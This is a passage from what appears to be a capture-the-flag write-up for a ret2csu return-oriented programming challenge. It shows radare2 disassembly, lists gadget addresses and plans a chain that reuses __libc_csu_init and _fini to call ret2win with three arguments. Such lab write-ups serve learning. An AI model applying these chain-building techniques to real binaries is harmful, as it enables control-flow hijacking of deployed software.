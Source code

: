     │      ╎│   0x00400683      4c89f6         mov rsi, r14
    │      ╎│   0x00400686      4489ef         mov edi, r13d
    │      ╎│   0x00400689      41ff14dc       call qword [r12 + rbx*8]
    │      ╎│   0x0040068d      4883c301       add rbx, 1
    │      ╎│   0x00400691      4839dd         cmp rbp, rbx
    │      └──< 0x00400694      75ea           jne 0x400680
    │       │   ; CODE XREF from sym.__libc_csu_init @ 0x400674
    │       └─> 0x00400696      4883c408       add rsp, 8
    │           0x0040069a      5b             pop rbx
    │           0x0040069b      5d             pop rbp
    │           0x0040069c      415c           pop r12
    │           0x0040069e      415d           pop r13
    │           0x004006a0      415e           pop r14
    │           0x004006a2      415f           pop r15
    └           0x004006a4      c3             ret

## Building the attack




### Gadgets

Our goal is to call `ret2win` with the three fixed arguments.

    0x00000000004006a3 : pop rdi ; ret
    0x00000000004006a1 : pop rsi ; pop r15 ; re

but no pop rdx.


with this pseudo gadget :

    0x00400680      4c89fa         mov rdx, r15
    0x00400683      4c89f6         mov rsi, r14
    0x00400686      4489ef         mov edi, r13d
    0x00400689      41ff14dc       call qword [r12 + rbx*8]

Calling it `call_gadget`


we can call : [r12 + rbx*8] and previouslely set r12 and rbx as we want.

And we have a big pop gadget to load p12 untin p15. (`pop_gadget`)

Unfortunatly the gadget dont call r12 + rbx*8 but [r12 + rbx*8].

We need an address **containing** our target : 0x00400510 (ret2win@plt)

There is no addess ad hoc.

Here is a tricks : find an addresse containing a "ret" gadget address,
or relatively neutral gadget.

Its the case of the ._fini function

    ┌ 9: sym._fini ();
    │           0x004006b4      4883ec08       sub rsp, 8                  ; [14] -r-x section size 9 named .fini
    │           0x004006b8      4883c408       add rsp, 8
    └           0x004006bc      c3             ret
